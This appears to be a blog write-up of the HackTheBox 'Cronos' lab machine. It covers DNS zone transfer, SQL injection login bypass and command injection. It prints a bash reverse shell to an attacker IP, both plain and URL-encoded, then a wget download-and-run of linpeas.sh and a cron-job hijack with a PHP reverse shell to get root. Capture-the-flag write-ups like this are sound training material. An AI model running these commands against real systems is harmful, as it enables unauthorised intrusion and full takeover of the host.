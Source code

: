 ```yaml
---
title: Cronos Writeups - HackTheBox -
date: "2023-03-23T12:00:00.000Z"
template: "post"
draft: false
slug: "cronos-writes-up"
category: "Security"
tags:
  - "Security"
  - "HackTheBox"
description: "Writeups of Cronos machine in HackTheBox"
socialImage: "/media/cronos.png"
---
```


![cronos](/media/cronos-writesup/cronos.png)

This is a writes up of [Cronos](https://app.hackthebox.com/machines/Cronos) machine, which has a `medium` level.

1. [Enumeration](#enumeration)
2. [User Flag](#user-flag)
3. [Priviledge Escalation](#priviledge-escalation)

## Enumeration
`nmap` found 3 open ports, 22(SSH), 53(DNS), 80(HTTP).

![nmap](/media/cronos-writesup/nmap.png)

When I go to `10.10.10.13` in browser, I see the apache default page.

![apache](/media/cronos-writesup/apache_80.png)

I tries to check if there are any pages with `gobuster`, but doesn't find anything.

![gobuster_10101013](/media/cronos-writesup/gobuster_10101013.png)

It might be the case that I have to resolve ip with a domain.
`nslookup` finds `ns1.cronos.htb` domain.

![nslookup](/media/cronos-writesup/nslookup.png)

I learned DNS Zone Transfers in [Footprint module](https://academy.hackthebox.com/module/112/section/1069).
Since port `53` is opened, I try to find other domains. There is additionally `admin.cronos.htb` domain.

![zone_transfer](/media/cronos-writesup/zone_transfer.png)

Now I set these domains in `/etc/hosts` file to resolve these domains.
```
10.10.10.13 cronos.htb admin.cronos.htb ns1.cronos.htb
```

When I go to `cronos.htb` page, there is a webpage. However, there is nothing special.

![cronos.htb](/media/cronos-writesup/cronos_htb.png)

`gobuster` doesn't find any pages, either. 

![gobuster_cronos_htb](/media/cronos-writesup/gobuster_cronos_htb.png)

Now it's time to go to `admin.cronos.htb` page. There is a login page.
It can be the initial foothold.

![admin.cronos.htb](/media/cronos-writesup/admin_cronos_htb.png)

## User Flag
As the first attempt, I tries to do a basic sql injection.

![sql_injection](/media/cronos-writesup/sql_injection.png)

Surprisingly, it works. there is a page where I can execute `traceroute` command. 
But, when I click the `execute!` button, it doesn't show anything.

![admin_page](/media/cronos-writesup/admin_page.png)

Now it's time to use `Burpsuite`. I try to change the `command` parameter and make `host` parameter empty.

![burpsuite_ls](/media/cronos-writesup/burpsuite_ls.png)

It returns a file list. So, this endpoint has a `command injection vulnerability` so that I can execute shell commands by changing the request parameter.

![burpsuite_ls_result](/media/cronos-writesup/burpsuite_ls_result.png)

It's time to do a reverse shell. I use the command below. `10.10.16.2` is my machine ip address.
```
/bin/bash -i >& /dev/tcp/10.10.16.2/1234 0>&1
```

In order to execute the reverse shell command, the command needs to be url-encoded like this below.
```
%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.2%2F1234%200%3E%261%0A
```

![burpsuite_reverse_shell](/media/cronos-writesup/burpsuite_reverse_shell.png)

I get the reverse shell!

![reverse_shell](/media/cronos-writesup/reverse_shell.png)

The shell is without TTY, so I spawn TTY shell. The detail about `Shell spawning` is written [here](https://rcenetsec.com/shell-spawning/).

![spawn_tty](/media/cronos-writesup/spawn_tty.png)

I'm a `www-data` user, but can read `user.txt`.

![user_txt](/media/cronos-writesup/user_txt.png)


## Priviledge Escalation
To find any hints for priviledge escalation, I use `linpeas.sh`.
I run a python server in the directory where `linpeas.sh` exists in my machine.
```
python3 -m http.server 80
```

Then, download and execute it in the target machine.
```
wget http://10.10.16.2/linpeas.sh
chmod +x linpeas.sh
bash linpeas.sh
```

`linpeas.sh` finds a cron job that executes `artisan` file with the root user.
This cron is executed every minute.

![crontab](/media/cronos-writesup/crontab.png)

`artisan` file is a php script.

![file_artisan](/media/cronos-writesup/file_artisan.png)

So, by replacing `artisan` file with a php reverse shell, I can get a root shell.
I download [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) in my machine and change `$ip` into my machine and `$port` into `9999`.
Now download the php reverse shell in the target machine and rename it into `artisan`.

![download_artisan](/media/cronos-writesup/download_artisan.png)

When the cron executes `artisan` file, I get a root shell!

![get_root](/media/cronos-writesup/get_root.png)

